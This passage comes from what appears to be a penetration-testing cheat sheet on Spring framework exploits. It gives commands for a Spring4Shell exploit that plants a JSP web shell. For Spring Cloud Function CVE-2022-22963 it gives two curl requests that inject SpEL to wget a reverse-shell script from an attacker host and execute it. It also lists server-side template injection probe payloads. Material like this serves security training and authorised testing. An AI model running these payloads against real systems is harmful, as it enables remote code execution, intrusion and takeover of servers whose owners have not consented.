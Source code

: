 ```bash
$ python3 exploit.py --url="https://TARGET:PORT/ENDPOINT" --dir="webapps/ROOT" --file="cmd"
$ curl https://TARGET:PORT/ENDPOINT/cmd.jsp?cmd=id
```

Alternatively, we may use [Leovalcante's exploit](https://github.com/Leovalcante/spring4shell)

```bash
$ ./spring4shell.py https://TARGET:PORT/ENDPOINT
```
{% endtab %}
{% endtabs %}

#### Spring Cloud RCE - CVE-2022-22963

{% tabs %}
{% tab title="Exploit" %}
In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources.

We can easily exploit it by hand

```bash
# 1. upload a rev.sh from our webserver
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget -O /tmp/rev.sh http://<ATTACKING_IP>/rev.sh")' --data-raw 'data' -v

# 2. Execute it
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/rev.sh")' --data-raw 'data' -v
```
{% endtab %}
{% endtabs %}

#### SSTI to RCE

{% tabs %}
{% tab title="Enumerate" %}
If there is an input form, such as a search form, or URL parameter which the parameter is reflected in the website, you may be able to find the vulnerability to the **server-side template injection**.

Try them:

```python
2*2
#{2*2}
*{2*2}
```

Then you can also check more about that.

```python
{"dfd".replace("d", "x")}
#{"dfd".replace("d", "x")}
*{"dfd".replace("d", "x")}

// ---------------------------------------

// the desired output of the above...
"xfx"
```
{% endtab %}
